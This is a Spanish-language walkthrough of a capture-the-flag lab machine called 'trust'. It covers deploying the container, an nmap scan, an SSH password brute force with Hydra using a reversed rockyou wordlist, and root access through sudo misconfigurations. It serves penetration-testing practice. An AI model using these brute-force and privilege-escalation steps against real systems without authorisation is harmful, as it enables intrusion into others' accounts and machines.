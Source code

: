 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![[Pasted image 20250131113855.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250131113958.png]]

Nos metemos en la web:

![[Pasted image 20250131114033.png]]

Tenemos usuario tails.

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![[Pasted image 20250131151102.png]]

Quitamos los espacios en blanco:

```
sed -i 's/ //g' invertido.txt
```

![[Pasted image 20250131153909.png]]

Fuerza Bruta con **Hydra**:

```
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

![[Pasted image 20250131153842.png]]

Nos conectamos con **SSH**:

```Bash
ssh tails@172.17.0.2
```

![[Pasted image 20250131153704.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250131153722.png]]

```
sudo -u sonic /bin/bash
```

![[Pasted image 20250131154316.png]]

```Bash
sudo -l
```

![[Pasted image 20250131154330.png]]

```Bash
sudo su
```

![[Pasted image 20250131154531.png]]

o también

```Bash
sudo -i
```

![[Pasted image 20250131154413.png]]

```Bash
whoami
```

![[Pasted image 20250131154558.png]]

